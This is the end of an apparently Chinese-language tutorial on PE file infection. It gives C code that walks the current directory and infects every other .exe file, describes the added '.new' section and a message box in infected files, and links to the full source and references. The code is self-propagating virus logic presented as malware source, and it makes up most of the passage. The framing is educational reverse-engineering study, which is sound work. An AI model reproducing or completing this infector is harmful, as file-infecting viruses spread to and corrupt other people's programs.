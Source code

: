 ```C
	GetCurrentDirectory(MAX_PATH,szCurrentPath);
	//获取当前模块路径
	GetModuleFileName(NULL,szCurrentModule,MAX_PATH);
	lstrcpy(szFilePath,szCurrentPath);
	lstrcat(szFilePath,L"\\*.exe");

	//遍历当前目录并感染除自身外的所有.exe文件
	hListFile = FindFirstFile(szFilePath,&FileInfo);
	if(hListFile == INVALID_HANDLE_VALUE){
		return 0;
	}
	else{
		do{
			if(!_tcsstr(szCurrentModule,FileInfo.cFileName)){
				//感染目标文件
				if (!InfectFile(FileInfo.cFileName)){
					return 0;
				}
			}
		}while(FindNextFile(hListFile,&FileInfo));
	}
}
```
运行被感染后的文件，会弹出以下消息框，使用 PEview 可以看到添加了一个名为 .new 的节区。
![](http://ooyovxue7.bkt.clouddn.com/17-7-23/33815689.jpg)    
完整代码可以在 [此链接](https://github.com/0x4C43/InflectPE) 下载。

____
References:   
[1] [PE File Infection](https://0x00sec.org/t/pe-file-infection/401)    
[2] 《小小黑客之路》    
[3] 《黑客编辑揭秘与防范》    
[4] 《逆向工程核心原理》
